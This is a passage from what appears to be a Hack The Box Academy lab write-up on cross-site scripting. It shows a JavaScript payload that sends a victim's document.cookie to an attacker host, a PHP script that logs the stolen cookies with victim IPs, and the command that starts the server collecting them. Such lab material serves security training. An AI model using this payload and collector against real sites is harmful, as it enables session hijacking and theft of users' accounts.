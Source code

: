 ![Burp Suite - XSS Discovery 2](./assets/screenshots/cross_site_scripting_burpsuite_xss_discovery_2.png)

```
[CONTINUE]

[Fri May 30 05:40:16 2025] 10.129.255.155:33436 Accepted
[Fri May 30 05:40:16 2025] 10.129.255.155:33436 [200]: GET /imgurl
[Fri May 30 05:40:16 2025] 10.129.255.155:33436 Closing
^C
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-45hkc2kudt]─[/tmp/tmpserver]
└──╼ [★]$ vim script.js 

new Image().src='http://10.10.15.8:8000/index.php?c='+document.cookie

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-iprwdllnsl]─[~]
└──╼ [★]$ vim index.php

<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-45hkc2kudt]─[/tmp/tmpserver]
└──╼ [★]$ sudo php -S 0.0.0.0:8000

[Fri May 30 05:45:55 2025] PHP 8.2.26 Development Server (http://0.0.0.0:8000) started

[CONTINUE]
```

